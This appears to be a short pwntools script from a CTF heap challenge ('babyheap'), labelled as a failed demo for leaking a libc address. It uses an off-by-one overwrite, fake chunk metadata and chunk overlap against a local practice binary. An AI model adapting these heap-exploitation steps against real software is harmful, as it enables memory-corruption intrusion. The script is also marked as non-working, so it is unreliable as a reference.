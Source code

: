泄露地址的Demo【失败】

```python
#!/usr/bin/python
from pwn import *

p=process(['./timu'],env={"LD_PRELOAD":"/home/p0kerface/Documents/babyheap/"})
context.log_level='Debug'
gdb.attach(p,"b *0x555555554abd")


def malloc(size,data):
	p.recvuntil("Your choice :")
	p.sendline(str(1))
	p.recvuntil("Size:")
	p.sendline(str(size))
	p.recvuntil("Data:")
	p.sendline(data)

def free(index):
	p.recvuntil("Your choice :")
	p.sendline(str(2))
	p.sendline(str(index))

def show():
	p.recvuntil("Your choice :")
	p.sendline(str(3))

malloc(0x100,"A"*0x20)					#0
malloc(0x100,"a"*0x20)					#1	-->leak_libc
malloc(0x28,"B"*(0x20)+p64(0x250))			#2	-->off by one
malloc(0x200-0x10,'C'*0x20)				#3	-->fake preinuse & presize=250
malloc(0x28,"D"*0x20)					#4
free(2)
free(1)							#1	-->for leak unsort bins
free(0)

malloc(0x28,"B"*(0x20)+p64(0x250))			#2	
free(3)							#	-->overlap



malloc(0x445,"\x00")

show()
#p.recvuntil('M')
#p.recv()

p.interactive()

```
